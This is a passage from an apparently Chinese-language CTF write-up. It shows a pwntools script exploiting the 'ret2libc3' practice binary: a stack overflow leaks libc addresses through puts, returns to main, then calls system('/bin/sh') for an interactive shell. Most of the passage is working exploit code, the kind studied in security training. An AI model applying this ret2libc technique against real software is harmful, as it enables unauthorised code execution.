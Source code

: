 

于是就可以构造payload

```python
#!/usr/bin/env python
from pwn import *

binary = ELF("./ret2libc3",checksec=False)
context.log_level = "debug"

sh = process('./ret2libc3')

main_addr = p32(binary.symbols.main)

pop_epb_ret = p32(0x080486ff)

plt_puts_addr = p32(binary.plt.puts)

got_puts_addr = p32(binary.got.puts)
got_gets_addr = p32(binary.got.gets)
got_setvbuf_addr = p32(binary.got.setvbuf)

payload = b"A" * 112 

payload += plt_puts_addr + pop_epb_ret + got_puts_addr 
payload += plt_puts_addr + pop_epb_ret + got_gets_addr
payload += plt_puts_addr + pop_epb_ret + got_setvbuf_addr
payload += main_addr   #修改部分payload，在最后返回到main函数，再次进行gets输入栈溢出漏洞跳转到system函数

sh.sendline(payload)

output = sh.recvn(140)  
#这里使用recvn函数   只读取140字节就停止读取
#如果这里使用recvall会持续读取直到遇到EOF字符，但是由于我们最后右跳转到了main函数，又开始gets从键盘中读取内容了，所以不会产生EOF字符，如果不读取140字符后就停止读取，那么就会一直卡在这里无法继续进行


output = output.split(b'?')[1].split(b'\n')

puts = u32(output[0][0:4])
gets = u32(output[1][0:4])
setvbuf = u32(output[2][0:4])

print(hex(puts))
print(hex(gets))
print(hex(setvbuf))

system_addr = p32(gets - 0x2bc70)
bin_sh_addr = p32(gets + 0xe815b)


#构造第二次输入的payload

system_addr = p32(gets - 0x2bc70)  #system函数地址
bin_sh_addr = p32(gets + 0xe815b)  #"/bin/sh字符串地址"

payload = b"A" * 104   #这里为什么是104而不是112在下面讨论

payload += system_addr + pop_epb_ret + bin_sh_addr

sh.sendline(payload)

sh.interactive()
```
